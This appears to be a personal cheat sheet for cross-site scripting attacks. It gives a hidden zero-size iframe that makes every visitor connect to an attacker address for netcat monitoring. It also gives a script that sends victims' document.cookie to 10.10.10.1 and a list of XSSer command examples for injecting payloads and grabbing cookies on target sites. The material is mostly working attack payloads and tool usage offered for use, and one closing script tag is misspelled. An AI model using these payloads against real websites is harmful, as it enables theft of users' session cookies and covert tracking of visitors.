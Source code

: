 Cross-Site Tracing (XST) attack involves the use of Cross-siteScripting (XSS) and the TRACEor TRACK HTTP methods

Cheat sheet: http://ha.ckers.org/xss.html

Reflected, stored 

# general special chars
<>'"{};
if those are not filtered or encoded then xss might possible

# injecting visible iframe in payload
is used to embedd other file (f.e.: html document, images) within the current html document
// All users who visit this page with the iframe will connect to 10.10.10.1
<iframe src=http://10.10.10.1/report height="0" width="0"> </iframe>
//with netcat connect and you will see the users

# stealing cookies
<script>new Image().src="http://10.10.10.1/cool.jpg?output="+document.cookie; </scipt>

# XSSer
//start it with 
xsser --gtk

Examples: 

[Info] This is because you aren't providing:

 At least one -payloader- using a keyword: 'XSS' (for hex.hash) or 'X1S' (for int.hash):

  - ex (GET): xsser -u 'https://target.com' -g '/path/profile.php?username=bob&surname=XSS&age=X1S&job=XSS'
  - ex (POST): xsser -u 'https://target.com/login.php' -p 'username=bob&password=XSS&captcha=X1S'

 Any extra attack(s) (Xsa, Xsr, Coo, Dorker, Crawler...):

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/path/id.php?=2' --Coo
  - ex (POST+XSA+XSR+Cookie): xsser -u 'https://target.com/login.php' -p 'username=admin&password=admin' --Xsa --Xsr --Coo
  - ex (Dorker): xsser -d 'news.php?id=' --Da
  - ex (Crawler): xsser -u 'https://target.com' -c 100 --Cl

 Or a mixture:

  - ex (GET+Manual): xsser -u 'https://target.com' -g '/users/profile.php?user=XSS&salary=X1S' --payload='<script>alert(XSS);</script>'
  - ex (POST+Manual): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --payload='}}%%&//<sc&ri/pt>(XSS)--;>'

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/login.asp?user=bob&password=XSS' --Coo
  - ex (POST+XSR+XSA): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --Xsr --Xsa